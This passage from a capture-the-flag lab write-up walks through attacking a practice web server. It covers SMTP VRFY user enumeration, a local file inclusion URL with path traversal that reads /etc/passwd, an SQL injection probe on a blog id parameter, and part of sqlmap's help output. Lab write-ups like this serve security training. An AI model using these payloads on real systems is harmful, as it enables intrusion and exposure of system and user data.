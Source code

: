 ```
VRFY john
550 5.1.1 john... User unknown
VRFY root
250 2.1.5 <root@ctf4.sas.upenn.edu>
```
# Port 80 - HTTP
We can browse to the victim's website by simply typing the IP address into the search bar. It takes us to a website titled `Professor Ehks Center for Data Studies`. We can click onto various links that take us to different pages.

(When coming back to this CTF, I realised there was another issue we could exploit, which was an LFI. We were able to print out files in the url `http://________/index.html?page=../../../../../../etc/passwd%00`. This also gave us the users that were on the machine)

When browsing to the `Blog` page, we can see there are four entries. Each link takes us to a blog page. The interesting thing in this is the `id=_` query in the URL, it changes when we browse to different blogs. 

(Image of changing ids)

From this, we know there has to be a back-end database that sorts these queries. We can confirm that this is a SQL database, by adding a `id='` to the URL. This will give us an error message:

(Image of error)

We can enumerate SQL services using `SQLmap`. We can bring up the help page using `sqlmap -h`:

```
$ sqlmap -h
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.7#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

```